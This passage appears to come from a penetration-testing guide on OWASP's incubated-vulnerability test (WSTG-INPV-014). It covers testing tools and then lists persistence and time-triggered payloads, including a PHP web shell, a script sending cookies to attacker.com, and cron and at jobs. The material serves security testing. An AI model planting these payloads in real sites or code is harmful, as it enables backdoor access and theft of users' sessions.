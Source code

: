       # HTTPie
      http "http://example.com/upload?file==malicious.php"
      ```

- **Postman**: GUI tool for testing payloads in APIs or forms.
  - Download from [Postman](https://www.postman.com/downloads/).
  - Send payloads in query parameters or body.
  - **Tip**: Use Collections for batch testing.

- **Browser Developer Tools (Chrome/Firefox**: Inspects responses to persistent or delayed payloads.
  - Access: Press `F12` or `Ctrl+Shift+I`.
  - Use Network tab to analyze responses and Console tab for tests.
  - **Note**: Firefox’s enhanced 2025 network analysis enhances response time debugging.

- **Netcat (nc)**: Tests server responses for backdoors or persistent connections.
  - Install on Linux:
    ```bash
    sudo apt install netcat
    ```
  - Install on Windows/Mac: Download from [nmap.org](https://nmap.org/ncat/).
  - Example:
    ```bash
    echo -e "GET /backdoor.php HTTP/1.1\nHost: example.com\n\n" | nc example.com 80
    ```

## Testing Methodology

This methodology follows OWASP’s black-box and gray-box approaches for WSTG-INPV-014, testing Incubated Vulnerabilities across potential entry points, persistent payloads, time-based triggers, data leakage, privilege escalation, configuration manipulation, session persistence attacks, and trigger evasion.

### Common Incubated Vulnerability Payloads

Below is a list of common payloads to test for Incubated Vulnerabilities. Start with simple payloads and escalate based on application behavior. Use with caution in controlled environments to avoid unintended persistence or data exposure.

- **Persistent Payloads**:
  - `<?php system($_GET['cmd']); ?>` (PHP backdoor)
  - `<script>fetch('http://attacker.com/log?data='+document.cookie)</script>` (JavaScript persistence)
  - `eval(base64_decode('malicious_code'));` (Encoded payload)
  - `echo 'malicious' > /tmp/backdoor` (File-based persistence)

- **Time-Based Trigger Payloads**:
  - `<?php if (date('Y-m-d') > '2025-06-01') { system('whoami'); } ?>` (Delayed execution)
  - `<script>setTimeout(function(){malicious()}, 86400000);</script>` (24-hour delay)
  - `at now + 1 day -f malicious.sh` (Scheduled task)
  - `crontab -e '0 0 * * * /tmp/malicious.sh'` (Cron job)
